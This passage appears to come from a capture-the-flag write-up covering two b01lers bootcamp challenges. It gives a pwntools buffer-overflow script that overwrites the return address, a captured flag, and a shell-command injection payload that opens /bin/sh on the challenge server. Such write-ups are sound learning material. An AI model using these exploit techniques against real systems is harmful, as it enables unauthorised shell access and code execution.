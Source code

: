 ### Description:
    Would you still have broken it if I hadn't said anything?
    nc chal.ctf.b01lers.com 1015

### Solution:

I am the third person to solve this challenge, another buffer overflow challenge.
in this challenge, we have to overwrite %rip to `0x401196`

{% highlight python %}
#r = process("theoracle-ef25f23d8a2218004732f71bfbfa1267")
r = remote("chal.ctf.b01lers.com", 1015)
p = "A" * 24
p += p64(0x401196)
r.sendline(p)
r.interactive()
{% endhighlight %}

FLAG: flag{Be1ng_th3_1_is_JusT_l1ke_b3ing_in_l0v3}

<h1 id="WhiteRabbit">White Rabbit</h1>

### Description:

    Follow the white rabbit...
    nc chal.ctf.b01lers.com 1013

### Solution:

in this challenge, we can't set "flag" as our input 


<img src="/images/b01lersCTFbootcamp/whiterabbit.png"/>

but we can inject a bash command to get a shell

{% highlight python %}

from pwn import *
r = remote("chal.ctf.b01lers.com",1013)
x = ''' ']||/bin/sh;[' '''
r.sendline(x)
r.interactive()

{% endhighlight %}
